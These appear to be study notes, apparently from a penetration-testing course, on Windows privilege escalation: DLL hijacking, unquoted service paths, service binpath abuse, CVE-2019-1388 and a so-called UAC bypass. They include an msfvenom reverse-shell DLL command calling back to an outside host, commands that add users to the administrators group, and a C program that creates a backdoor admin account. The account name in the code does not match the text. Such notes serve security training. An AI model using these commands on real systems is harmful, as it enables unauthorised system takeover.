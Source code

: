 #### Escalation Via Executable Files (TCM)
- PowerUp.ps1
- It will give a ServiceName, Path, ModifiablePath, ... and AbuseFunction
- Take $servicename.exe and replace the existing version in the modifiable path

#### Escalation via Startup Applications
- `icacls.exe "C:\ProgramData\Microsoft\Windows\Start Menu\Programs\Startup"`
- Generate the exe wth msfvenom
- Put the exe in the above folder
- Need to reboot or have an administrator log in/out
- Probably won't see this in CTF or lab environment

#### DLL Hijacking
Go into process monitor and set filters for "Path ends with .dll" and "Result is NAME NOT FOUND"
- We can overwrite if we can control the service and if the folder is writable
	- If we have a vulnerable service called dllsvc:
	1. `sc start dllsvc` (or stop first, then start)
	2. Then check ProcMon
	3. `msfvenom -p windows/x64/shell/reverse_tcp LHOST=192.169.0.100 LPORT=4444 -f dll -o msf.dll`
	4. Then stop and start again
- https://book.hacktricks.xyz/windows-hardening/windows-local-privilege-escalation/dll-hijacking

#### Escalation via Binary Paths
- run PowerUp.ps1 - `Invoke-AllChecks`
- If our user has the `“SERVICE_CHANGE_CONFIG”` permission on the `daclsvc` service:
	- `sc config daclsvc binpath= "net localgroup administrators $user /add"`
	- `sc stop daclsvc` and `sc start daclsvc`

#### Unquoted Service Path Escalation
- PowerUp.ps1
- Example service path: `C:\Program Files\Unquoted Path Service\Common Files\unquotedpathservice.exe`
- when the system is trying to run this executable, it will check for `Program.exe`, `Program Files.exe`, `Program Files\Unquoted.exe`... etc. So the goal is to place our malicious executable in any of those directories we have write access to. The example lab uses: `C:\Program Files\Unquoted Path Service\Common.exe`

#### CVE-2019-1388
If you get a pop up that says `To continue, enter an admin user name and password.` and has a `Show more details` option, you may be able to open up an internet explorer window showing the publisher's certificate. It will open it up as a SYSTEM level user, so you can use internet explorer to pop a shell. 
- Wheel
- Save as
- File
- Search for cmd, then right click and open it. It will open as `nt authority\system`. 

#### UAC Bypass
 Goal is to replace a service exe and either restart the service or reboot (`shutdown /r /t 0`) 
Malicious.c file below:
```
#include <stdlib.h> 

int main () 
{ 
int i; 

i = system ("net user evil Ev!lpass /add"); 
i = system ("net localgroup administrators evil /add"); 
   
return 0; 
}
```
Compile the C Program above, and you can use it to create a new admin user (`user1:Ev!lpass`).